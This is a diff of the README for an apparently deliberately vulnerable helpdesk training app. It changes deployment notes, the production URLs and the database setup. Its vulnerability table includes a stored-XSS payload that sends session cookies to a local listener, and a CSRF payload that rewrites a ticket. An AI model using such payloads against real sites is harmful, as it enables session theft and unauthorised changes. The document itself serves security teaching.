

Before and after one commit to chis0m/helpdesk, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 96% size. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -79,7 +79,7 @@ helpdesk/
 
 ### Production deployment
 
-The hosted environment runs **Docker** on **EC2**, with **GitHub Actions** building images and deploying on push to `vulnerable-baseline` or `secure-fix`. Configuration, networking, server layout, and GitHub/AWS expectations are documented here:
+The hosted environment runs **Docker** on **EC2** orchestrated by [docker compose](deploy/secure/docker-compose.yml), with **GitHub Actions** building images and deploying on push to `vulnerable-baseline` or `secure-fix`. Configuration, networking, server layout, and GitHub/AWS expectations are documented here:
 
 **[deploy/README.md](deploy/README.md)**
 
@@ -87,10 +87,10 @@ Production URLs (HTTPS, as wired in this repo and the reverse proxy):
 
 | Resource | URL |
 |----------|-----|
-| Vulnerable (Insecure UI) | http://vulnweb.chisomejim.site |
-| Vulnerable (Insecure API) | http://api.vulnweb.chisomejim.site |
-| Secure (UI) | https://secweb.chisomejim.site |
-| Secure (API) | https://api.secweb.chisomejim.site |
+| Vulnerable (Insecure UI HTTP) | http://vulnweb.chisomejim.site |
+| Vulnerable (Insecure API HTTP) | http://api.vulnweb.chisomejim.site |
+| Secure (UI HTTPS) | https://secweb.chisomejim.site |
+| Secure (API HTTPS) | https://api.secweb.chisomejim.site |
 | Mail (Mailpit web UI) | https://mail.chisomejim.site |
 
 ---
@@ -114,8 +114,8 @@ Secure Branch: `secure_helpdesk`
 
 ```sql
 CREATE DATABASE secure_helpdesk CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
-CREATE USER 'secure_helpdesk'@'localhost' IDENTIFIED BY 'your_password';
-GRANT ALL ON helpdesk.* TO 'helpdesk'@'localhost';
+CREATE USER 'admin'@'localhost' IDENTIFIED BY 'your_password';
+GRANT ALL ON secure_helpdesk.* TO 'admin'@'localhost';
 FLUSH PRIVILEGES;
 ```
 
@@ -178,8 +178,8 @@ The project follows a structured vulnerability and remediation plan **VULN-01
 |----|-------|------|-------------------------|
 | **VULN-01** | Session cookie flags | Tokens readable by JS or sent over HTTP | Session cookies **`HttpOnly=false`**, **`Secure=false`**, exposing tokens to script access, insecure transport. |
 | **VULN-02** | IDOR | Access other users’ profiles or tickets by ID | Clients may reference guessable resource IDs; the API does not enforce **ownership or role** before returning or mutating another user’s profile or ticket. |
-| **VULN-03** | Stored XSS | User content executed as HTML | Ticket or comment text is rendered as **HTML** in the UI (**v-html**) or passed unsafely into templates, allowing **stored script** execution in victims’ browsers e.g `<img src=x onerror="new Image().src='http://127.0.0.1:3333/?c='+encodeURIComponent(document.cookie)">` |
-| **VULN-04** | CSRF | Cross-site form posts mutate state | State-changing requests accept **session cookies** without a **bound anti-CSRF token** to the session, allowing malicious sites to trigger actions with invalid csrf tokens. e.g `<img src=x onerror='fetch("http://127.0.0.1:5000/api/tickets/4",{method:"PATCH",credentials:"include",headers:{"Content-Type":"application/json","X-CSRF-Token":"invalid-xxx"},body:JSON.stringify({description:"You have been pwned."})})'` |
+| **VULN-03** | Stored XSS | User content executed as HTML | Ticket or comment text is rendered as **HTML** in the UI (**v-html**) or passed unsafely into templates, allowing **stored script** execution in victims’ browsers e.g `<img src=x onerror="new Image().src='http://127.0.0.1:3333/?c='+encodeURIComponent(document.cookie)">`. Run `python3 -m http.server 3333` locally to listen for the token|
+| **VULN-04** | CSRF | Cross-site form posts mutate state | State-changing requests accept **session cookies** without a **bound anti-CSRF token** to the session, allowing malicious sites to trigger actions with invalid csrf tokens. e.g `<img src=x onerror='fetch("http://127.0.0.1:8080/api/tickets/4",{method:"PATCH",credentials:"include",headers:{"Content-Type":"application/json","X-CSRF-Token":"invalid-xxx"},body:JSON.stringify({description:"You have been pwned."})})'` |
 | **VULN-05** | Weak audit trail | No forensic trail for incidents | Sensitive actions may leave **no footprint** of actor, action, and outcome, hindering detection, incident review and non-repudiation. |
 | **VULN-06** | SQL injection (search) | Search query concatenated into raw SQL | User search input may be **concatenated into SQL strings**, allowing **injection** and unintended data access or modification. |
 
````
Also changed, not shown: other parts of README.md (+2 -2 lines).
